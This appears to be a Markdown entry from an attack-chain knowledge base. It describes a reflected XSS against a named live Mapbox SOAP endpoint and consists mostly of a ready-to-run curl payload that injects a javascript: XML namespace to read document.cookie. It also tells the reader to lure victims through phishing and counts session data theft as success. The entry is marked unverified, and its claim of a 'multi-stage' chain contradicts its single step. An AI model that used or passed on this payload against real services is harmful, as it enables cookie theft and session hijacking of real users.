

---
tags:
  - xss
  - reflected-xss
  - soap
  - xml
  - mapbox
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Collection]]'
verified: false
platforms:
  - Web
submitted: true
complexity: low
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Exploit-Reflected-XSS-in-SOAP-XML-Namespace]]'
step_count: 1
techniques:
  - '[[JavaScript]]'
updated_at: '2025-12-14T03:47:18.621Z'
description: >-
  A single-stage attack exploiting a reflected XSS vulnerability in the XML
  Namespace URI handling of the Mapbox SOAP endpoint, allowing arbitrary
  JavaScript execution in the victim's browser.
skill_level: beginner
impact_level: medium
id: 07d05b3f-fb18-4259-a1d3-62868b60c127
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[JavaScript]]'
---
# Reflected XSS via Malicious XML Namespace URI in Mapbox SOAP Endpoint

Multi-stage attack chain demonstrating a complete attack workflow.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 1 |
| Execution Time | ~1 minutes |
| Skill Level | Beginner |
| Complexity | Low |
| Impact Level | Medium |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- None (uses standard HTTP client like curl)

### Target Environment

- Web platform
- SOAP endpoint at https://go.mapbox.com/index.php/soap/
- PHP-based service

### Initial Access Requirements

- Direct network access to the public endpoint
- No credentials required (public-facing)
- Victim must visit the crafted URL or be tricked via phishing

## Detailed Attack Procedures

### Step 1: Exploit Reflected XSS
procedure: [[procedures/Exploit-Reflected-XSS-in-SOAP-XML-Namespace]]

**Objective**: Inject malicious JavaScript via the XML Namespace URI in a SOAP request, leading to reflection and execution in the browser.

**Instructions**: Craft and send a SOAP request with a malicious xmlns attribute pointing to JavaScript code. Use [[commands/curl-send-malicious-soap]] to deliver the payload:

```bash
curl -X POST 'https://go.mapbox.com/index.php/soap/' \
  -H 'Content-Type: text/xml' \
  --data '<?xml version="1.0" encoding="UTF-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema"><soap:Body><test xmlns="javascript:alert(document.cookie)"></test></soap:Body></soap:Envelope>'
```

Trick the victim into visiting the reflected response URL or embed in a phishing page.

**Expected Output**: The server reflects the malicious namespace in the response, executing the JavaScript (e.g., alert popup showing cookies).

**Success Indicators**:
- JavaScript alert triggers in the browser
- Cookies or session data accessible via executed code

## Attack Chain Summary

### Key Achievements

1. Successful injection of JavaScript via XML namespace
2. Reflection without sanitization leading to code execution
3. Potential for session hijacking or client-side data theft

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]
- [[Collection]]

---
*Last updated: 2023-10-01T00:00:00Z*
